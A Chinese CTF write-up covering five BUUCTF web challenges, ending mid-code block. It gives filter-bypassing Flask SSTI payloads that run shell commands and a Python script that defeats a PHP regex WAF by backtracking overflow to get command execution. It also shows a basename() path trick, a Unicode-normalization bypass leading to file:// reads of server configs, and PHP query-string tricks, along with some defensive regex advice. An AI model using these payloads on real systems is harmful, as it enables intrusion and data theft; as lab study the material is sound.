[buuctf] web区 write up 1
===

## [GYCTF2020]FlaskApp

### 题解

启动靶机, 是一个对输入进行 base64 编码/解码 的小程序。

经过尝试发现解码界面会**输出解码后的结果**, 猜测此处存在 Flask SSTI 注入:





构造 payload, 发现存在关键词被过滤, 用拼接字符串的方式绕过:

```python
{{''.__class__.__base__.__subclasses__()[127].__init__.__globals__.__builtins__['__imp'+'ort__']('o'+'s')['po'+'pen']('l'+'s').read()}}
# 也就是
# e3snJy5fX2NsYXNzX18uX19iYXNlX18uX19zdWJjbGFzc2VzX18oKVsxMjddLl9faW5pdF9fLl9fZ2xvYmFsc19fLl9fYnVpbHRpbnNfX1snX19pbXAnKydvcnRfXyddKCdvJysncycpWydwbycrJ3BlbiddKCdsJysncycpLnJlYWQoKX19
```



成功执行, 接下来找 flag 即可。

```python
{{''.__class__.__base__.__subclasses__()[127].__init__.__globals__.__builtins__['__imp'+'ort__']('o'+'s')['po'+'pen']('l'+'s'+' /').read()}}
#e3snJy5fX2NsYXNzX18uX19iYXNlX18uX19zdWJjbGFzc2VzX18oKVsxMjddLl9faW5pdF9fLl9fZ2xvYmFsc19fLl9fYnVpbHRpbnNfX1snX19pbXAnKydvcnRfXyddKCdvJysncycpWydwbycrJ3BlbiddKCdsJysncycrJyAvJykucmVhZCgpfX0=
```



```python
{{''.__class__.__base__.__subclasses__()[127].__init__.__globals__.__builtins__['__imp'+'ort__']('o'+'s')['po'+'pen']('ca'+'t'+' /this_is_the_f'+'lag.txt').read()}}
#e3snJy5fX2NsYXNzX18uX19iYXNlX18uX19zdWJjbGFzc2VzX18oKVsxMjddLl9faW5pdF9fLl9fZ2xvYmFsc19fLl9fYnVpbHRpbnNfX1snX19pbXAnKydvcnRfXyddKCdvJysncycpWydwbycrJ3BlbiddKCdjYScrJ3QnKycgL3RoaXNfaXNfdGhlX2YnKydsYWcudHh0JykucmVhZCgpfX0=   
```



> 总结: 一道直白简单的 SSTI 注入, 用拼接字符串的方式进行绕过即可。

## [FBCTF2019]RCEService

### 构造 payload

打开靶机, 直接显示是一个输入 json 进行命令执行的页面, 附件是该页面的源码 (~吐槽: buuctf 没有这个附件, 浪费不少时间~)



`index.php`:

```php
<?php
putenv('PATH=/home/rceservice/jail');
if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];
  
  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```





接下来尝试 `{"cmd":"ls /"}` 就遇到了问题, `/` 被过滤了, 这里的正则过滤比较严格, 到这里没有头绪了, 看了下 wp, 这里用到的是正则绕过:

由于源码中使用的是 `REQUEST` 方式接收参数, 这里可以直接改包成 `POST` 方法:



可以看到依然是成功执行的, 接下来构造一个超级大的 payload 让正则溢出:

> GET 方法存在长度限制, 因此这里用 POST;

```python
import requests
payload = '{"cmd":"ls /", "abc":"'+'a'*1000000+'"}'
res = requests.post("http://80b73b67-e6fd-4b1f-8f9a-a8c035b665f4.node5.buuoj.cn:81/",data = {"cmd":payload})
print(res.text)
```



没发现 flag, 之后执行 `find` 也不成功, 应该是受限了, 试试 `which` 和 `where`, 仍然不成功:



接下来就试试手动找, 一般来说这些自带命令的二进制文件在 `/bin` 和 `/usr/bin/` 下, 后者一般是有权限能用的, 也就是用这个命令去找: `/usr/bin/find / -name flag`



找到 flag 了, 继续构造 `cat` 的 payload: `/usr/bin/cat /home/rceservice/flag`

发现没有回显, 有可能是没有足够权限去读这个文件, 那试试 `/bin/cat`:

拿到flag。



### 有限状态自动机

**有限状态自动机**是一种数学模型，用于描述一个系统在接收输入时如何根据当前状态**转移到下一个状态**, 显然**正则是典型的有限状态自动机**:

有限状态向量机分为确定性有限状态自动机 **(DFA)** 和非确定性有限状态自动机 **(NFA)**:

#### DFA

举例构造一个 DFA, 接受输入为一个只含 `a` 和 `b` 的字符串, 判断这个字符串中 `a` 的个数是奇数还是偶数:

状态转移表:

|当前状态|输入|下一个状态|
|----|----|----|
|$q_0$|a|$q_1$|
|$q_0$|b|$q_0$|
|$q_1$|a|$q_0$|
|$q_1$|b|$q_1$|

> 初始状态为 $q_0$, 接受状态为 $q_0$;

在这个例子中, 每一步的状态转移都是唯一确定的。

#### NFA

举例构造一个 NFA, 接受输入为一个只含 `a` 和 `b` 的字符串, 判断这个字符串是否以 `ab` 为结尾:

状态转移表:

|当前状态|输入|下一个状态|
|----|----|----|
|$q_0$|a|$q_0,q_1$|
|$q_0$|b|$q_0$|
|$q_1$|b|$q_2$|

> 初始状态为 $q_0$, 接受状态为 $q_2$;

可以看到在 NFA 中, 输入可以同时进入**多个状态**, 或者说每一步的状态是不确定的, DFA 运行唯一路径, 而 NFA 有可能分叉成多路径。

> 数学上, 可以将任意 NFA 转换成等价的 DFA。

### PHP 中的正则匹配

#### 资源超限

回到 php 中的正则匹配函数, `preg_match()` (或者 php 中的 PCRE) 实际上不是构造真正的 NFA，而是用回溯的方式模拟 NFA。如果你给它一个“恶意构造”的输入，它可能陷入指数级的回溯路径。如果超出内部状态调用上限（栈深/时间），正则就会被“绕过”或中断。

> 一般的 WAF 都是黑名单过滤, 也就是在 `preg_match()` 为 `true` 时执行拦截, 然而 PCRE 超限会导致这个函数直接返回 `false`, 从而达成了绕过;

例如:

```php
if (preg_match('/^(a+)+$/', $input)) {
    die("invalid input!");
}
```

输入为:

```php
$input = str_repeat("a", 30) . "X";
```

理论上应该会被正则匹配拦截, 但是由于回溯路径(拆分方式)过多, 达到了指数级:

- (aaaaa)(aaaaa)(aaaaa)...
- (aaaa)(aaaa)(aaaa)....
- ...

直接把正则打挂了, 就能实现绕过。

#### 漏洞成因

从原理上讲, 这处漏洞的原因是:

1) 对 `preg_match()` 函数的性能限制导致 (php 为了防止 `preg_match()` 占用过多资源而施加的限制)
2) php 使用了 NFA 而非 DFA 来构造正则匹配;

理论上讲, 任何使用 NFA 的方式构造正则匹配的语言都有可能产生这个漏洞, 因为几乎所有语言都对资源分配设限。

### WAF (PHP)

#### 强匹配 `===`

在 PHP 手册中, `preg_match()` 这类函数通常在匹配时返回 `1`, 匹配失败时返回 `0`, 函数执行失败时返回 `false`, 在弱匹配条件下, 对 `0` 和 `false` 的匹配结果是相同的, 而这两个值实际上对应了不同的执行结果。因此使用强匹配可以防止这个情况发生。

#### 防御性正则设计

- 避免嵌套量词 (如 `(a+)+`)
- 用原子组 `(?>...)` 减少回溯

## [Zer0pts2020]Can you guess it?

### 题解

打开就能看见源码:



```php
 <?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html> 
```



但是 `hash_equal()` 这个函数看起来没有什么利用点, 反而是上面的文件比较可疑, 因为一般来说直接用 `__FILE__` 即可, 而这里用了 `$_SERVER['PHP_SELF']`(当前绝对路径), 这里应该存在利用点。

这方面没有积累, 最后还是看了一眼 wp。

`basename()` 会返回当前路径的最后一段 (例如 `/index.php/test` 返回 `test`), 但是如果遇到了不可见字符, 就会返回上一层 (例如 `/index.php/%ff` 返回 `index.php`)

因此 payload:

```text
http://d7927183-505a-489e-adf0-350166d58e86.node5.buuoj.cn:81/index.php/config.php/%ff?source
```



这道题的关键是 `basename()` 函数对不可见字符如 %ff 的处理。

## [0CTF 2016]piapiapia

打开是一个带源码的页面:



```python
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

看起来是需要想办法通过前两个判断, 进入第三个, 而 host 是一样的。感觉无从下手, 看了一下 payload, 本题的知识点是: **Python 这里用到的三种解析方式在遇到特殊 unicode 时可能返回预期外的结果:**

> 参考链接: [Blackhat PDF](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)

### Unicode 规范化

解析网址的时候会将 Unicode 转为正常字符, 这里没有对转义可能出现的字符做特殊处理: PDF 中提到, `urlsplit()` 未处理 NFKC 规范化，导致 `%`和全角符号（`＃`）被滥用

### 枚举爆破

知道了思路, 用枚举的思路试出可用的 unicode 字符:



```python
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        # 考虑让 unicode 滥用后占用 c 的位置来实现 bypass
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass
 
def getUrl(url):
    url=url
    host=parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts=list(urlsplit(url))
    host=parts[1]
    if host == 'suctf.cc':
        return False
    newhost=[]
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1]='.'.join(newhost)
    finalUrl=urlunsplit(parts).split(' ')[0]
    host=parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False
 
 
if __name__=='__main__':
    get_unicode()
```



执行脚本得到一个可用的 unicode 为 `℆`, (`℆` 解析后为 `c/u`, 可以用于 bypass ) 用 url 编码后读取文件:



由于题目源码里有 nginx, 考虑访问 nginx 的默认路径:

```
file://suctf.c℆sr/local/nginx/conf/nginx.conf
```

得到路径, 之后同样的做法读取 flag 即可。

~这道题好像有 bug, 提交 payload 显示 500 错误~

## [MRCTF2020] 套娃

### 题解

首先打开靶机就是一段代码审计:

```php
//1st
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

这里面包含了两个点:

-   `$_SERVER["QUERY_STRING"]`
  这是一个预定义的字符串, 表示当前查询语句, 例如`http://example.com?a=bbb` 的`$_SERVER["QUERY_STRING"]` = `"a=bbb"`; 注意， `$_SERVER["QUERY_STRING"]` 是**未解码**的(即 `%5f` 不会变成 `_`)。

这里过滤了查询语句中的 `_` 和 `%5f` (也就是 `_` 的 URL 编码), 此处的知识点是, 在PHP 的 GET 传参中, `空格` (无效变量名) 会**自动转换**成 `_`, `?b_u_p_t` = `?b u p t`;

-    `$_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])`
  这里要求了 GET 传参的参数不为 `23333`, 但是必须要通过一个同样结构的以 23333 结尾的正则匹配;

在参数的末尾加一个 **换行符** 即可, 因为换行符在进行字符串值比较的时候不会被**忽略**, 但是在正则中会被忽略;

最终payload: `?b%20u%20p%20t=23333%0A`:



访问这个地址:



问了下 AI, 这串变态的代码属于 JSFuck 编码, 是极度混淆后的 JS 代码, 将其在网站中转义后得到一个 alert 函数, 内容是 "Post me a Merak"

随便传个 Merak=1 即可通过:



接下来是读取文件, 首先改包完成 ip 校验:

由于不知道该改哪里, 就把能改 ip 的地方全改了:

```
